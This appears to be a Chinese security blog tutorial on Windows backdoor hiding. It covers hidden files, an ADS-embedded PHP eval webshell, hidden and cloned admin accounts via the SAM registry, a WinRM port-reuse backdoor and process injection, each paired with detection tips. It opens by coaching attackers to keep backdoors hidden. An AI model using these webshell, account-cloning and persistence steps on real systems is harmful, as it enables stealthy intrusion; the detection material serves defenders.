 ### 0x00 前言

攻击者在获取服务器权限后，通常会用一些后门来维持权限，如果你想让你的后门保持的更久些，那么请隐藏好它，使之不易被管理员发现。

### 0x01 隐藏文件

**1、利用文件属性**

最简单的一种隐藏文件的方式，文件右键属性，勾选隐藏，点击确定后，在这个文件里看不到刚刚的文件了。

![](http://img-upaiyun-own.test.upcdn.net/privilege-1-1.png)

如果要让文件显示出来，就点击查看，勾选显示隐藏的文件，文件就显示出来。

![](http://img-upaiyun-own.test.upcdn.net/privilege-1-2.png)

如何真正隐藏文件？

使用Attrib +s +a +h +r命令就是把原本的文件夹增加了系统文件属性、存档文件属性、只读文件属性和隐藏文件属性。

`attrib +s +a +h +r  D:\test\project\test`.txt

这样就做到了真正的隐藏，不管你是否显示隐藏文件，此文件夹都看不见。

破解隐藏文件：

打开电脑文件夹选项卡，取消”隐藏受保护的操作系统文件“勾选，把”隐藏文件和文件夹“下面的单选选择“显示隐藏的文件、文件夹和驱动器”。

![](http://img-upaiyun-own.test.upcdn.net/privilege-1-3.png)

**2、利用ADS隐藏文件内容**

​	在服务器上echo一个数据流文件进去，比如index.php是网页正常文件，我们可以这样子搞： 　

```
echo ^<?php @eval($_POST['chopper']);?^> > index.php:hidden.jpg
```

这样子就生成了一个不可见的shell hidden.jpg，常规的文件管理器、type命令，dir命令、del命令发现都找不出那个hidden.jpg的。　

```
问题1：如何查看index.php:hidden.jpg内容呢？

　　	进入文件所在目录，notepad index.php:hidden.jpg    或者 dir /r
　　	
问题2：如何删除index.php:hidden.jpg？

 直接删除index.php即可
```



**3、驱动级文件隐藏**

驱动隐藏我们可以用过一些软件来实现，软件名字叫：Easy File Locker      

下载链接： http://www.xoslab.com/efl.html

如果你在网站目录未查找到相关文件，且系统目录存在存在以下文件：

```
c:\WINDOWS\xlkfs.dat
c:\WINDOWS\xlkfs.dll
c:\WINDOWS\xlkfs.ini
c:\WINDOWS\system32\drivers\xlkfs.sys
```

那么你，应该是遭遇了驱动级文件隐藏。

如何清除？

~~~
1、查询服务状态： sc qc xlkfs
2、停止服务： net stop xlkfs 服务停止以后，经驱动级隐藏的文件即可显现
3、删除服务： sc delete xlkfs
4、删除系统目录下面的文件，重启系统，确认服务已经被清理了。
~~~

隐藏文件的方式还有很多，比如伪装成一个系统文件夹图标，利用畸形文件名、保留文件名无法删除，甚至取一个与系统文件很像的文件名并放在正常目录里面，很难辨别出来。

这些隐藏文件的方式早已不再是秘密，而更多的恶意程序开始实现“无文件”攻击，这种方式极难被发现。

### 0x02 隐藏账号

window 隐藏系统用户操作，CMD命令行下，建立了一个用户名为“test$”，密码为“abc123!”的简单隐藏账户,并且把该隐藏账户提升为了管理员权限。

![](http://img-upaiyun-own.test.upcdn.net/privilege-1-4.png)

PS:CMD命令行使用"net user",看不到"test$"这个账号，但在控制面板和本地用户和组是可以显示此用户的。

克隆账号制作过程：

1、“开始”→“运行”，输入“regedt32.exe”后回车,需要到“HKEY_LOCAL_MACHINE\SAM\SAM”，单机右建权限，把名叫：administrator的用户给予：完全控制以及读取的权限，在后面打勾就行，然后关闭注册表编辑器，再次打开即可。

![](http://img-upaiyun-own.test.upcdn.net/privilege-1-5.png)

2、来到注册表编辑器的`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names`处，点击test$用户，得到在右边显示的键值中的“类型”一项显示为0x3ec，找到箭头所指目录。

![](http://img-upaiyun-own.test.upcdn.net/privilege-1-6.png)

3、找到administrator所对应的的项为“000001F4”，将“000001F4”的F值复制到“000003EC”的F值中，保存。

![](http://img-upaiyun-own.test.upcdn.net/privilege-1-7.png)

4、分别test$和“000003EC导出到桌面，删除test$用户   net user test$ /del

![](http://img-upaiyun-own.test.upcdn.net/privilege-1-8.png)

5、将刚才导出的两个后缀为.reg的注册表项导入注册表中。这样所谓的隐藏账户就创建好了。PS：不管你是在命令提示符下输入net user 或者在系统用户管理界面都是看不到test$这个账户的，只有在注册表中才能看得到。

检测和清理方法：

使用D盾_web查杀工具，使用克隆账号检测功能进行查看，可检测出隐藏、克隆账号。

![](http://img-upaiyun-own.test.upcdn.net/privilege-1-9.png)

### 0x03 端口复用

通过端口复用来达到隐藏端口的目的，在Window下，如何实现端口复用呢？

前阵子，@Twi1ight公布了一种基于内置系统服务的端口复用后门方法，利用WinRM服务，一条命令实现端口复用后门：

`winrm set winrm/config/service @{EnableCompatibilityHttpListener="true"}`

一般开启WinRM服务作为远程管理，但还是第一次听到可以作为端口复用，一种简单容易实现的端口复用方式。假设，攻击者已获取到administrator账号密码，连接远程WinRM服务执行命令：

![](http://img-upaiyun-own.test.upcdn.net/privilege-1-19.png)

当执行这条命令的同时，将在安全日志中留下痕迹，

![](http://img-upaiyun-own.test.upcdn.net/privilege-1-20.png)

另外，可以通过代码实现端口复用重定向，工具：https://github.com/crabkun/Switcher

### 0x04 进程注入

进程注入，一直是病毒木马的惯用手段，同时，它也是一种隐藏技术。在常见的渗透测试框架中，进程注入是怎么做的以及我们如何通过工具排查出来？

**1、meterpreter会话注入**

当前权限无法获取hash值，查看目前系统进程

![](http://img-upaiyun-own.test.upcdn.net/privilege-1-10.png)

通过migrate将进程注入到system进程后，成功获得hash值。

![](http://img-upaiyun-own.test.upcdn.net/privilege-1-11.png)

Window后门排查：

通过TCPview显示已建立的TCP连接，我们可以看到异常的连接，同时，恶意软件将以绿色显示不到一秒钟，然后变成红色消失，如此循环。 

![](http://img-upaiyun-own.test.upcdn.net/privilege-1-12.png)

**2、Empire会话进程注入**

通过psinject模块进行会话注入，直接输入ps选择一个SYSTEM权限的进程PID，使用进程注入模块，来获取权限。如下图：

![](http://img-upaiyun-own.test.upcdn.net/privilege-1-13.png)

Window后门排查：利用process monitor或者火绒剑监控进程都可以定位到注入进程。

![](http://img-upaiyun-own.test.upcdn.net/privilege-1-14.png)

![](http://img-upaiyun-own.test.upcdn.net/privilege-1-15.png)

**3、Cobalt Strike进程注入**

选择进程，点击inject，随后选择监听器，点击choose，即可发现Cobaltstrike弹回了目标机的一个新会话，这个会话就是成功注入到某进程的beacon。

![](http://img-upaiyun-own.test.upcdn.net/privilege-1-16.png)

![](http://img-upaiyun-own.test.upcdn.net/privilege-1-17.png)

Window后门排查：利用process monitor捕捉通信过程，有规律的请求取决于sleep设置的间隔。

![](http://img-upaiyun-own.test.upcdn.net/privilege-1-18.png)

### 0x05  结束

本文主要介绍了Window下的几种隐藏技术，包括隐藏文件、隐藏账号、端口复用、进程注入等方面的简单实现及其排查技巧。仅作抛砖引玉之用，欢迎留言分享。



